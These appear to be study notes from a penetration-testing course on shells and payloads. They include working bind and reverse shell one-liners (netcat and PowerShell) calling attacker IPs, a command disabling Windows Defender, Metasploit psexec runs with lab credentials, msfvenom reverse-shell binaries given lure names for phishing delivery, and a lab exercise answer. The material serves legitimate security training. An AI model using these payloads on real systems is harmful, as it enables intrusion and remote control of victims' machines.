



A `shell` is a program that provides a computer user with an interface to input instructions into the system and view text output (Bash, Zsh, cmd, and PowerShell, for example). As penetration testers and information security professionals, a shell is often the result of exploiting a vulnerability or bypassing security measures to gain interactive access to a host.

- `"I caught a shell."`
- `"I popped a shell!"`
- `"I dropped into a shell!"`
- `"I'm in!"`

Typically these phrases translate to the understanding that this person has successfully exploited a vulnerability on a system and has been able to gain remote control of the shell on the target computer's operating system. This is a common goal a penetration tester will have when attempting to access a vulnerable machine. We will notice that most of this module will focus on what comes after enumeration and identification of promising exploits.

Establishing a shell also allows us to maintain persistence on the system, giving us more time to work. It can make it easier to use our `attack tools`, `exfiltrate data`, `gather`, `store` and `document` all the details of our attack, as we will soon see in the proceeding demonstrations. It's important to note that establishing a shell almost always means we are accessing the CLI of the OS, and this can make us harder to notice than if we were remotely accessing a graphical shell over [VNC](https://en.wikipedia.org/wiki/Virtual_Network_Computing) or [RDP](https://www.cloudflare.com/learning/access-management/what-is-the-remote-desktop-protocol/).
## Payloads Deliver us Shells

Within the IT industry as a whole, a `payload` can be defined in a few different ways:

- `Networking`: The encapsulated data portion of a packet traversing modern computer networks.
- `Basic Computing`: A payload is the portion of an instruction set that defines the action to be taken. Headers and protocol information removed.
- `Programming`: The data portion referenced or carried by the programming language instruction.
- `Exploitation & Security`: A payload is `code` crafted with the intent to exploit a vulnerability on a computer system. The term payload can describe various types of malware, including but not limited to ransomware.
# Anatomy of a Shell

Every operating system has a shell, and to interact with it, we must use an application known as a `terminal emulator`. Here are some of the most common terminal emulators:

|**Terminal Emulator**|**Operating System**|
|:--|:--|
|[Windows Terminal](https://github.com/microsoft/terminal)|Windows|
|[cmder](https://cmder.app/)|Windows|
|[PuTTY](https://www.putty.org/)|Windows|
|[kitty](https://sw.kovidgoyal.net/kitty/)|Windows, Linux and MacOS|
|[Alacritty](https://github.com/alacritty/alacritty)|Windows, Linux and MacOS|
|[xterm](https://invisible-island.net/xterm/)|Linux|
|[GNOME Terminal](https://en.wikipedia.org/wiki/GNOME_Terminal)|Linux|
|[MATE Terminal](https://github.com/mate-desktop/mate-terminal)|Linux|
|[Konsole](https://konsole.kde.org/)|Linux|
|[Terminal](https://en.wikipedia.org/wiki/Terminal_\(macOS\))|MacOS|
|[iTerm2](https://iterm2.com/)|MacOS|
This list is by no means every terminal emulator available, but it does include some noteworthy ones.
# Bind Shell
## What Is It?

With a bind shell, the `target` system has a listener started and awaits a connection from a pentester's system (attack box).
There can be many challenges associated with getting a shell this way. Here are some to consider:

- There would have to be a listener already started on the target.
- If there is no listener started, we would need to find a way to make this happen.
- Admins typically configure strict incoming firewall rules and NAT (with PAT implementation) on the edge of the network (public-facing), so we would need to be on the internal network already.
- Operating system firewalls (on Windows & Linux) will likely block most incoming connections that aren't associated with trusted network-based applications.
### Example

```shell
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l IP_victim 7777 > /tmp/f # Listener on the victim host
```
In this instance, the target will be our server, and the attack box will be our client. Once we hit enter, the listener is started and awaiting a connection from the client.
```shell
nc -nv IP_victim 7777
```
# Reverse Shells

With a `reverse shell`, the attack box will have a listener running, and the target will need to initiate the connection.

We will often use this kind of shell as we come across vulnerable systems because it is likely that an admin will overlook outbound connections, giving us a better chance of going undetected. The last section discussed how bind shells rely on incoming connections allowed through the firewall on the server-side. It will be much harder to pull this off in a real-world scenario.

We will often use this kind of shell as we come across vulnerable systems because it is likely that an admin will overlook outbound connections, giving us a better chance of going undetected. The last section discussed how bind shells rely on incoming connections allowed through the firewall on the server-side. It will be much harder to pull this off in a real-world scenario. As seen in the image above, we are starting a listener for a reverse shell on our attack box and using some method (example: Unrestricted File Upload, Command Injection, etc..) to force the target to initiate a connection with our target box, effectively meaning our attack box becomes the server and the target becomes the client.
## Hands-on With A Simple Reverse Shell in Windows

```shell
# Attack Macine
sudo nc -lvnp 443
```
This time around with our listener, we are binding it to a [common port](https://docs.redhat.com/en/documentation/red_hat_enterprise_linux/4/html/security_guide/ch-ports#ch-ports) (`443`), this port usually is for `HTTPS` connections. We may want to use common ports like this because when we initiate the connection to our listener, we want to ensure it does not get blocked going outbound through the OS firewall and at the network level. It would be rare to see any security team blocking 443 outbound since many applications and organizations rely on HTTPS to get to various websites throughout the workday.

`What applications and shell languages are hosted on the target?` This is an excellent question to ask any time we are trying to establish a reverse shell. Let's use command prompt & PowerShell to establish this simple reverse shell. We can use a standard PowerShell reverse shell one-liner to illustrate this point.

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.231.136',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

>[!Error] 
>The `Windows Defender antivirus` (`AV`) software stopped the execution of the code. This is working exactly as intended, and from a `defensive` perspective, this is a `win`. From an offensive standpoint, there are some obstacles to overcome if AV is enabled on a system we are trying to connect with. For our purposes, we will want to disable the antivirus through the `Virus & threat protection settings` or by using this command in an administrative PowerShell console (right-click, run as admin):
>```powershell
># Disabling the AV real-time monitoring
>C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
>```

Once AV is disabled, attempt to execute the code again.

We should notice that we successfully established a reverse shell. We can see this by the change in the prompt that starts with `PS` and our ability to interact with the OS and file system. Try running some standard Windows commands to practice a bit.
## One-Liners Examined

#### Netcat/Bash Reverse Shell One-liner

```shell
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.164 7777 > /tmp/f
```
#### Remove /tmp/f

```shell
rm -f /tmp/f; 
```

Removes the `/tmp/f` file if it exists, `-f` causes `rm` to ignore nonexistent files. The semi-colon (`;`) is used to execute the command sequentially.

#### Make A Named Pipe

```shell
mkfifo /tmp/f; 
```

Makes a [FIFO named pipe file](https://man7.org/linux/man-pages/man7/fifo.7.html) at the location specified. In this case, /tmp/f is the FIFO named pipe file, the semi-colon (`;`) is used to execute the command sequentially.

#### Output Redirection

```shell
cat /tmp/f | 
```

Concatenates the FIFO named pipe file /tmp/f, the pipe (`|`) connects the standard output of cat /tmp/f to the standard input of the command that comes after the pipe (`|`).

#### Set Shell Options

```shell
/bin/bash -i 2>&1 | 
```

Specifies the command language interpreter using the `-i` option to ensure the shell is interactive. `2>&1` ensures the standard error data stream (`2`) `&` standard output data stream (`1`) are redirected to the command following the pipe (`|`).

#### Open a Connection with Netcat

```shell
nc 10.10.14.12 7777 > /tmp/f` 
```

Uses Netcat to send a connection to our attack host `10.10.14.12` listening on port `7777`. The output will be redirected (`>`) to /tmp/f, serving the Bash shell to our waiting Netcat listener when the reverse shell one-liner command is executed
## PowerShell One-liner Explained

The shells & payloads we choose to use largely depend on which OS we are attacking. Be mindful of this as we continue throughout the module. We witnessed this in the reverse shells section by establishing a reverse shell with a Windows system using PowerShell. Let's breakdown the one-liner we used:

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
#### Calling PowerShell

```powershell
powershell -nop -c
```

Executes `powershell.exe` with no profile (`nop`) and executes the command/script block (`-c`) contained in the quotes. This particular command is issued inside of command-prompt, which is why PowerShell is at the beginning of the command. It's good to know how to do this if we discover a Remote Code Execution vulnerability that allows us to execute commands directly in `cmd.exe`.
#### Binding A Socket

"$client = New-Object System.Net.Sockets.TCPClient(10.10.14.158,443);
powershell
Sets/evaluates the variable `$client` equal to (`=`) the `New-Object` cmdlet, which creates an instance of the `System.Net.Sockets.TCPClient` .NET framework object. The .NET framework object will connect with the TCP socket listed in the parentheses `(10.10.14.158,443)`. The semi-colon (`;`) ensures the commands & code are executed sequentially.
```
```
#### Setting The Command Stream

```powershell
$stream = $client.GetStream();
```

Sets/evaluates the variable `$stream` equal to (`=`) the `$client` variable and the .NET framework method called [GetStream](https://docs.microsoft.com/en-us/dotnet/api/system.net.sockets.tcpclient.getstream?view=net-5.0) that facilitates network communications. The semi-colon (`;`) ensures the commands & code are executed sequentially.
#### Empty Byte Stream

```powershell
[byte[]]$bytes = 0..65535|%{0}; 
```

Creates a byte type array (`[]`) called `$bytes` that returns 65,535 zeros as the values in the array. This is essentially an empty byte stream that will be directed to the TCP listener on an attack box awaiting a connection.

#### Stream Parameters

```powershell
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
```

Starts a `while` loop containing the `$i` variable set equal to (`=`) the .NET framework [Stream.Read](https://docs.microsoft.com/en-us/dotnet/api/system.io.stream.read?view=net-5.0) (`$stream.Read`) method. The parameters: buffer (`$bytes`), offset (`0`), and count (`$bytes.Length`) are defined inside the parentheses of the method.

#### Set The Byte Encoding

```powershell
{;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
```

Sets/evaluates the variable `$data` equal to (`=`) an [ASCII](https://en.wikipedia.org/wiki/ASCII) encoding .NET framework class that will be used in conjunction with the `GetString` method to encode the byte stream (`$bytes`) into ASCII. In short, what we type won't just be transmitted and received as empty bits but will be encoded as ASCII text. The semi-colon (`;`) ensures the commands & code are executed sequentially.

#### Invoke-Expression

```powershell
$sendback = (iex $data 2>&1 | Out-String ); 
```

Sets/evaluates the variable `$sendback` equal to (`=`) the Invoke-Expression (`iex`) cmdlet against the `$data` variable, then redirects the standard error (`2>`) `&` standard output (`1`) through a pipe (`|`) to the `Out-String` cmdlet which converts input objects into strings. Because Invoke-Expression is used, everything stored in $data will be run on the local computer. The semi-colon (`;`) ensures the commands & code are executed sequentially.

#### Show Working Directory

```powershell
$sendback2 = $sendback + 'PS ' + (pwd).path + '> '; 
```

Sets/evaluates the variable `$sendback2` equal to (`=`) the `$sendback` variable plus (`+`) the string PS (`'PS'`) plus `+` path to the working directory (`(pwd).path`) plus (`+`) the string `'> '`. This will result in the shell prompt being PS C:\workingdirectoryofmachine >. The semi-colon (`;`) ensures the commands & code are executed sequentially. Recall that the + operator in programming combines strings when numerical values aren't in use, with the exception of certain languages like C and C++ where a function would be needed.

#### Sets Sendbyte

```powershell
$sendbyte=  ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}
```

Sets/evaluates the variable `$sendbyte` equal to (`=`) the ASCII encoded byte stream that will use a TCP client to initiate a PowerShell session with a Netcat listener running on the attack box.

#### Terminate TCP Connection

```powershell
$client.Close()"
```

This is the [TcpClient.Close](https://docs.microsoft.com/en-us/dotnet/api/system.net.sockets.tcpclient.close?view=net-5.0) method that will be used when the connection is terminated.
# Automating Payloads & Delivery with Metasploit

[Metasploit](https://www.metasploit.com/) is an automated attack framework developed by `Rapid7` that streamlines the process of exploiting vulnerabilities through the use of pre-built modules that contain easy-to-use options to exploit vulnerabilities and deliver payloads to gain a shell on a vulnerable system.
## Practicing with Metasploit

We could spend the rest of this module covering everything about Metasploit, but we are only going to go so far as to work with the very basics within the context of shells & payloads.
In this case, we will be using enumeration results from a `nmap` scan to pick a Metasploit module to use.
#### NMAP Scan

```shell
nmap -sC -sV -Pn 10.129.164.25
# Output
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-09 21:03 UTC
Nmap scan report for 10.129.164.25
Host is up (0.020s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)

Host script results:
|_nbstat: NetBIOS name: nil, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:04:e2 (VMware)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-09-09T21:03:31
|_  start_date: N/A
```
Once we have this information, we can use Metasploit's search functionality to discover modules that are associated with SMB. In the `msfconsole`, we can issue the command `search smb` to get a list of modules associated with SMB vulnerabilities:

```msfconsole
search smb
```

We will see a long list of Matching Modules associated with our search. Notice the format each module is in. Each module has a number listed on the far left of the table to make selecting the module easier, a Name, Disclosure Date, Rank, Check and Description.

Let's look at one module, in particular, to understand it within the context of payloads.

`56 exploit/windows/smb/psexec`

|Output|Meaning|
|---|---|
|`56`|The number assigned to the module in the table within the context of the search. This number makes it easier to select. We can use the command `use 56` to select the module.|
|`exploit/`|This defines the type of module. In this case, this is an exploit module. Many exploit modules in MSF include the payload that attempts to establish a shell session.|
|`windows/`|This defines the platform we are targeting. In this case, we know the target is Windows, so the exploit and payload will be for Windows.|
|`smb/`|This defines the service for which the payload in the module is written.|
|`psexec`|This defines the tool that will get uploaded to the target system if it is vulnerable.|
We use the module by typing `use exploit/windows/smb/psexec`

```shell
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.129.180.71
RHOSTS => 10.129.180.71
msf6 exploit(windows/smb/psexec) > set SHARE ADMIN$
SHARE => ADMIN$
msf6 exploit(windows/smb/psexec) > set SMBPass HTB_@cademy_stdnt!
SMBPass => HTB_@cademy_stdnt!
msf6 exploit(windows/smb/psexec) > set SMBUser htb-student
SMBUser => htb-student
msf6 exploit(windows/smb/psexec) > set LHOST 10.10.14.222
LHOST => 10.10.14.222
```

Then when we set the options, we can run the exploit:

```shell
exploit

[*] Started reverse TCP handler on 10.10.14.222:4444
[*] 10.129.180.71:445 - Connecting to the server...
[*] 10.129.180.71:445 - Authenticating to 10.129.180.71:445 as user 'htb-student'...
[*] 10.129.180.71:445 - Selecting PowerShell target
[*] 10.129.180.71:445 - Executing the payload...
[+] 10.129.180.71:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.129.180.71
[*] Meterpreter session 1 opened (10.10.14.222:4444 -> 10.129.180.71:49675) at 2021-09-13 17:43:41 +0000

meterpreter >
```
## Exercise
### Exploit the target using what you've learned in this section, then submit the name of the file located in htb-student's Documents folder. (Format: filename.extension)

staffsalaries.txt
# Crafting Payloads with MSFvenom
## Practicing with MSFvenom

In Pwnbox or any host with MSFvenom installed, we can issue the command `msfvenom -l payloads` to list all the available payloads. Below are just some of the payloads available. A few payloads have been redacted to shorten the output and not distract from the core lesson. Take a close look at the payloads and their descriptions:

```shell
msfconsole -l payloads
```

`What do you notice about the output?`

We can see a few details that will help us understand payloads further. First of all, we can see that the payload naming convention almost always starts by listing the OS of the target (`Linux`, `Windows`, `MacOS`, `mainframe`, etc...). We can also see that some payloads are described as (`staged`) or (`stageless`).
## Staged vs. Stageless Payloads

`Staged` payloads create a way for us to send over more components of our attack. We can think of it like we are "setting the stage" for something even more useful. Take for example this payload `linux/x86/shell/reverse_tcp`. When run using an exploit module in Metasploit, this payload will send a small `stage` that will be executed on the target and then call back to the `attack box` to download the remainder of the payload over the network, then executes the shellcode to establish a reverse shell. Of course, if we use Metasploit to run this payload, we will need to configure options to point to the proper IPs and port so the listener will successfully catch the shell. Keep in mind that a stage also takes up space in memory which leaves less space for the payload. What happens at each stage could vary depending on the payload.
## Building A Stageless Payload

Now let's build a simple stageless payload with msfvenom and break down the command.
#### Build It

```shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
```

#### Call MSFvenom

```shell-session
msfvenom
```

Defines the tool used to make the payload.
#### Creating a Payload

```shell-session
-p
```

This `option` indicates that msfvenom is creating a payload.
#### Choosing the Payload based on Architecture

```shell-session
linux/x64/shell_reverse_tcp
```

Specifies a `Linux` `64-bit` stageless payload that will initiate a TCP-based reverse shell (`shell_reverse_tcp`).

#### Address To Connect Back To

```shell-session
LHOST=10.10.14.113 LPORT=443
```

When executed, the payload will call back to the specified IP address (`10.10.14.113`) on the specified port (`443`).
#### Format To Generate Payload In

```shell-session
-f elf
```

The `-f` flag specifies the format the generated binary will be in. In this case, it will be an [.elf file](https://en.wikipedia.org/wiki/Executable_and_Linkable_Format).

#### Output

```shell-session
> createbackup.elf
```

Creates the .elf binary and names the file createbackup. We can name this file whatever we want. Ideally, we would call it something inconspicuous and/or something someone would be tempted to download and execute.
## Executing a Stageless Payload

At this point, we have the payload created on our attack box. We would now need to develop a way to get that payload onto the target system. There are countless ways this can be done. Here are just some of the common ways:

- Email message with the file attached.
- Download link on a website.
- Combined with a Metasploit exploit module (this would likely require us to already be on the internal network).
- Via flash drive as part of an onsite penetration test.

Imagine for a moment: the target machine is an Ubuntu box that an IT admin uses to manage network devices (hosting configuration scripts, accessing routers & switches, etc.). We could get them to click the file in an email we sent because they were carelessly using this system as if it was a personal computer or workstation.

We would have a listener ready to catch the connection on the attack box side upon successful execution.
## Building a simple Stageless Payload for a Windows system

We can also use msfvenom to craft an executable (`.exe`) file that can be run on a Windows system to provide a shell.
#### Windows Payload

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```
## Executing a Simple Stageless Payload On a Windows System

This is another situation where we need to be creative in getting this payload delivered to a target system. Without any `encoding` or `encryption`, the payload in this form would almost certainly be detected by Windows Defender AV.
  


If the AV was disabled all the user would need to do is double click on the file to execute and we would have a shell session.

```shell
sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.144.5 49679
Microsoft Windows [Version 10.0.18362.1256]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Users\htb-student\Downloads>dir
dir

 Volume in drive C has no label.
 Volume Serial Number is DD25-26EB

 Directory of C:\Users\htb-student\Downloads

09/23/2021  10:26 AM    <DIR>          .
09/23/2021  10:26 AM    <DIR>          ..
09/23/2021  10:26 AM            73,802 BonusCompensationPlanpdf.exe
               1 File(s)         73,802 bytes
               2 Dir(s)   9,997,516,800 bytes free
```
# Infiltrating Windows

Since many of us can remember, Microsoft has dominated the home and enterprise markets for computing. In modern days, with the introduction of improved Active Directory features, more interconnectivity with cloud services, Windows subsystem for Linux, and much more, the Microsoft attack surface has grown as well.
## Prominent Windows Exploits

Over the last few years, several vulnerabilities in the Windows operating system and their corresponding attacks are some of the most exploited vulnerabilities of our time.

| **Vulnerability** | **Description**                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| ----------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `MS08-067`        | MS08-067 was a critical patch pushed out to many different Windows revisions due to an SMB flaw. This flaw made it extremely easy to infiltrate a Windows host. It was so efficient that the Conficker worm was using it to infect every vulnerable host it came across. Even Stuxnet took advantage of this vulnerability.                                                                                                                                                                                      |
| `Eternal Blue`    | MS17-010 is an exploit leaked in the Shadow Brokers dump from the NSA. This exploit was most notably used in the WannaCry ransomware and NotPetya cyber attacks. This attack took advantage of a flaw in the SMB v1 protocol allowing for code execution. EternalBlue is believed to have infected upwards of 200,000 hosts just in 2017 and is still a common way to find access into a vulnerable Windows host.                                                                                                |
| `PrintNightmare`  | A remote code execution vulnerability in the Windows Print Spooler. With valid credentials for that host or a low privilege shell, you can install a printer, add a driver that runs for you, and grants you system-level access to the host. This vulnerability has been ravaging companies through 2021. 0xdf wrote an awesome post on it [here](https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html).                                                                                          |
| `BlueKeep`        | CVE 2019-0708 is a vulnerability in Microsoft's RDP protocol that allows for Remote Code Execution. This vulnerability took advantage of a miss-called channel to gain code execution, affecting every Windows revision from Windows 2000 to Server 2008 R2.                                                                                                                                                                                                                                                     |
| `Sigred`          | CVE 2020-1350 utilized a flaw in how DNS reads SIG resource records. It is a bit more complicated than the other exploits on this list, but if done correctly, it will give the attacker Domain Admin privileges since it will affect the domain's DNS server which is commonly the primary Domain Controller.                                                                                                                                                                                                   |
| `SeriousSam`      | CVE 2021-36934 exploits an issue with the way Windows handles permission on the `C:\Windows\system32\config` folder. Before fixing the issue, non-elevated users have access to the SAM database, among other files. This is not a huge issue since the files can't be accessed while in use by the pc, but this gets dangerous when looking at volume shadow copy backups. These same privilege mistakes exist on the backup files as well, allowing an attacker to read the SAM database, dumping credentials. |
| `Zerologon`       | CVE 2020-1472 is a critical vulnerability that exploits a cryptographic flaw in Microsoft’s Active Directory Netlogon Remote Protocol (MS-NRPC). It allows users to log on to servers using NT LAN Manager (NTLM) and even send account changes via the protocol. The attack can be a bit complex, but it is trivial to execute since an attacker would have to make around 256 guesses at a computer account password before finding what they need. This can happen in a matter of a few seconds.              |
## Enumerating Windows & Fingerprinting Methods

Since we have a set of targets, `what are a few ways to determine if the host is likely a Windows Machine`? To answer this question, we can look at a few things. The first one being the `Time To Live` (TTL) counter when utilizing ICMP to determine if the host is up. A typical response from a Windows host will either be 32 or 128.

```shell
ping 192.168.86.39

PING 192.168.86.39 (192.168.86.39): 56 data bytes
64 bytes from 192.168.86.39: icmp_seq=0 ttl=128 time=102.920 ms 
64 bytes from 192.168.86.39: icmp_seq=1 ttl=128 time=9.164 ms 
64 bytes from 192.168.86.39: icmp_seq=2 ttl=128 time=14.223 ms 
64 bytes from 192.168.86.39: icmp_seq=3 ttl=128 time=11.265 ms
```
#### OS Detection Scan

```shell
sudo nmap -v -O 192.168.86.39
```
#### Banner Grab to Enumerate Ports

```shell
sudo nmap -v 192.168.86.39 --script banner.nse
```
## Bats, DLLs, & MSI Files, Oh My!

When it comes to creating payloads for Windows hosts, we have plenty of options to choose from. DLLs, batch files, MSI packages, and even PowerShell scripts are some of the most common methods to use. Each file type can accomplish different things for us, but what they all have in common is that they are executable on a host.
#### Payload Types to Consider

- [DLLs](https://docs.microsoft.com/en-us/troubleshoot/windows-client/deployment/dynamic-link-library) A Dynamic Linking Library (DLL) is a library file used in Microsoft operating systems to provide shared code and data that can be used by many different programs at once. These files are modular and allow us to have applications that are more dynamic and easier to update. As a pentester, injecting a malicious DLL or hijacking a vulnerable library on the host can elevate our privileges to SYSTEM and/or bypass User Account Controls.
- [Batch](https://commandwindows.com/batch.htm) Batch files are text-based DOS scripts utilized by system administrators to complete multiple tasks through the command-line interpreter. These files end with an extension of `.bat`.
- [VBS](https://www.guru99.com/introduction-to-vbscript.html) VBScript is a lightweight scripting language based on Microsoft's Visual Basic. It is typically used as a client-side scripting language in webservers to enable dynamic web pages. VBS is dated and disabled by most modern web browsers but lives on in the context of Phishing and other attacks aimed at having users perform an action such as enabling the loading of Macros in an excel document or clicking on a cell to have the Windows scripting engine execute a piece of code.
- [MSI](https://docs.microsoft.com/en-us/windows/win32/msi/windows-installer-file-extensions) `.MSI` files serve as an installation database for the Windows Installer. When attempting to install a new application, the installer will look for the .msi file to understand all of the components required and how to find them. We can use the Windows Installer by crafting a payload as an .msi file.
- [Powershell](https://docs.microsoft.com/en-us/powershell/scripting/overview?view=powershell-7.1) Powershell is both a shell environment and scripting language. It serves as Microsoft's modern shell environment in their operating systems. As a scripting language, it is a dynamic language based on the .NET Common Language Runtime that, like its shell component, takes input and output as .NET objects.
## Tools, Tactics, and Procedures for Payload Generation, Transfer, and Execution

Below you will find examples of different payload generation methods and ways to transfer our payloads to the victim. We will talk about some of these methods at a high level since our focus is on the payload generation itself and the different ways to acquire a shell on the target.

#### Payload Generation

We have plenty of good options for dealing with generating payloads to use against Windows hosts. We touched on some of these already in previous sections. For example, the Metasploit-Framework and MSFVenom is a very handy way to generate payloads since it is OS agnostic. The table below lays out some of our options. However, this is not an exhaustive list, and new resources come out daily.

|**Resource**|**Description**|
|---|---|
|`MSFVenom & Metasploit-Framework`|[Source](https://github.com/rapid7/metasploit-framework) MSF is an extremely versatile tool for any pentester's toolkit. It serves as a way to enumerate hosts, generate payloads, utilize public and custom exploits, and perform post-exploitation actions once on the host. Think of it as a swiss-army knife.|
|`Payloads All The Things`|[Source](https://github.com/swisskyrepo/PayloadsAllTheThings) Here, you can find many different resources and cheat sheets for payload generation and general methodology.|
|`Mythic C2 Framework`|[Source](https://github.com/its-a-feature/Mythic) The Mythic C2 framework is an alternative option to Metasploit as a Command and Control Framework and toolbox for unique payload generation.|
|`Nishang`|[Source](https://github.com/samratashok/nishang) Nishang is a framework collection of Offensive PowerShell implants and scripts. It includes many utilities that can be useful to any pentester.|
|`Darkarmour`|[Source](https://github.com/bats3c/darkarmour) Darkarmour is a tool to generate and utilize obfuscated binaries for use against Windows hosts.|
#### Payload Transfer and Execution:

Besides the vectors of web-drive-by, phishing emails, or dead drops, Windows hosts can provide us with several other avenues of payload delivery. The list below includes some helpful tools and protocols for use while attempting to drop a payload on a target.

- `Impacket`: [Impacket](https://github.com/SecureAuthCorp/impacket) is a toolset built in Python that provides us with a way to interact with network protocols directly. Some of the most exciting tools we care about in Impacket deal with `psexec`, `smbclient`, `wmi`, Kerberos, and the ability to stand up an SMB server.
- [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Download%20and%20Execute.md): is a great resource to find quick oneliners to help transfer files across hosts expediently.
